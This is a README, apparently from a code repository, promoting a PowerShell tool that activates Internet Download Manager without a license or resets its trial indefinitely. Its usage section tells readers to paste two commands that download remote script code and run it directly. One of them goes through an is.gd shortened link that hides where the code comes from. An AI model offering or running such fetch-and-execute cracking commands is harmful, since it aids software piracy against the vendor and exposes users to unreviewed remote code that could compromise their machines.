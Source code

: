 # idm-activation-tool
PowerShell-based IDM activation and trial reset script. Supports Windows 7–11. Update-friendly, customizable, and includes silent/unattended mode.

# 🚀 IDM Activation & Trial Reset Tool – Simplified 💻

## ✨ Overview
This is a modern, reliable PowerShell script to **activate Internet Download Manager (IDM)** or **reset its trial period** on Windows 🪟. It uses a smart registry lock technique that works seamlessly with most versions of IDM.

---

## 🧠 Key Features

✅ **One-click Activation** – Quick & easy!  
🔁 **Trial Reset Anytime** – Extend your 30-day trial endlessly.  
🔧 **Update-Safe** – Activate once, update without worry.  
🛡️ **Fix Fake Serial Errors** – Restore IDM to a clean state.  
💡 **Unattended Mode Support** – Automate with `/act`, `/res`, `/s`.

---

## 💡 Supported OS
Compatible with:  
`Windows 7, 8, 8.1, 10, 11` & Server editions.

---

## ⚙️ How To Use

### 📥 Step 1: Open PowerShell
Right-click on Start ⏩ choose **PowerShell** or **Windows Terminal**.

### 🔐 Step 2: Run the Script
Copy-paste the command below and hit Enter:

``powershell
```iex(irm is.gd/idm_reset)```

iwr -useb https://raw.githubusercontent.com/lstprjct/IDM-Activation-Script/main/IAS.ps1 | iex

💬 Follow on-screen instructions and you’re done! 🎉

